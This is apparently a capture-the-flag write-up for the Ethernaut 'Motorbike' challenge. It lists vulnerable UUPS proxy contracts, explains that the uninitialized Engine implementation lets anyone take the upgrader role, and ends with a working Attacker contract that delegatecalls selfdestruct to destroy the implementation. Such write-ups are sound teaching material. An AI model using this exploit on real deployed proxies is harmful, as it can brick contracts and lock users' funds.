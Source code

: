 # Motorbike

```
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`. 
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

## Goal

The goal of this challenge is to ```selfdestruc``` the ```Engine``` contract.

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

Again the contracts of this challenge are following the Proxy Upgrade Pattern, more specifically the UUPS pattern. The proxy contract in our case ```Motorbike``` acts as a storage layer so any state modification in the implementation contract (in our case ```Engin```) normally doesn't produce side effects to systems using it, since only the logic is used through delegatecalls.

But the issue here is that the implementation contract ```Engine``` was left uninitialized, which means everyone can call the ```initialize``` function inside it and set ```upgrader``` and ```horsePower``` variables to the desired values.

After the ```upgrader``` variable is set to hold the value of the ```Attacker``` contract address, we can call ```upgradeToAndCall``` function insde ```Engine``` and it will ```delegatecall``` to the ```Attacker``` contract calling the ```selfdestruct``` function inside it. Altthough the ```selfdestruct``` will be called inside ```Attacker```, since we are delegating the call from the ```Engine``` contract it is the ```Engine``` contract that will be deleted.

To exploit the contract we need to:

1. create IEngine interface and define all the functions that we are going to use from ```Engine```
2. create Attacker contract
3. create attack(IEngine engine) external function inside the Attacker contract, passing in the Engine contract as function argument, and inside this function we will:
  <ul>
  <li>call initilize function from Engine in order to set the upgrader variable to the address of the Attacker contract</li>
  <li>call upgradeToAndCall function with the address of the Attacker contract as argument for newImplementation parameter and the abi encoded string of the kill function (inside which we'll call selfdestruct) as an argument for the data parameter</li>
  </ul>
3. create kill() function inside Attacker contract, and inside it call selfdestruct, because Engine contract will delegatecall to the Attacker contract calling this kill function, selfdestruct will cause the Engine contract to be deleted instead of the Attacker one.

## Attacker contract code

```
interface IEngine {
    function initialize() external;
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable;
}

contract Attacker {
    function attack(IEngine engine) external {
        engine.initialize();
        engine.upgradeToAndCall(address(this), abi.encodeWithSelector(this.kill.selector));
    }

    function kill() public {
        selfdestruct(payable(address(this)));
    }
}
```
